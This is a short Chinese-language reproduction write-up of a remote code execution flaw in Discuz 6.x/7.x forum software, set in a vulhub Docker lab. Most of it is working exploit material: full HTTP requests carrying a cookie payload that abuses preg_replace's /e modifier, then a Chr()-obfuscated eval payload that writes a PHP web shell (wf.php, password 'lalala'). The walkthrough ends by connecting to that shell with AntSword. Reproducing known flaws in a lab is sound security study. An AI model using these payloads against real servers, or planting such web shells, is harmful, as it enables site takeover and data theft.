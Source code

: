# 0x00 软件介绍
Discuz：流行的php实现的论坛程序

# 0x01 复现环境
使用环境：vulhub中的环境  
复现版本：无

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

切换到对应目录下  
docker-compose up -d  
启动后，访问[http://172.16.35.128:8080/install/](http://172.16.35.128:8080/install/)来安装discuz，数据库地址填写db，数据库名为discuz，数据库账号密码均为root

# 0x03 利用条件
无

# 0x04 影响版本
Discuz 7.x 6.x

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

安装成功后，直接找一个已存在的帖子，向其发送数据包，将Cookie中的数据改为
```
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo()
```
请求如下
```
GET /viewthread.php?tid=13&extra=page%3D1 HTTP/1.1
Host: 172.16.35.128:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.35.128:8080/forumdisplay.php?fid=2&page=1
Connection: close
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo()
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
Cookie中的内容变为  
```
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(119).Chr(102).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(108).Chr(97).Chr(108).Chr(97).Chr(108).Chr(97).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
```
发送的请求如下  
```
GET /viewthread.php?tid=13&extra=page%3D1 HTTP/1.1
Host: 172.16.35.128:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.35.128:8080/forumdisplay.php?fid=2&page=1
Connection: close
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(119).Chr(102).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(108).Chr(97).Chr(108).Chr(97).Chr(108).Chr(97).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
然后使用蚁剑连接，地址http://172.16.35.128:8080/wf.php 密码lalala  
成功连接

# 0x06 踩坑记录
无

# 0x07 参考链接
无
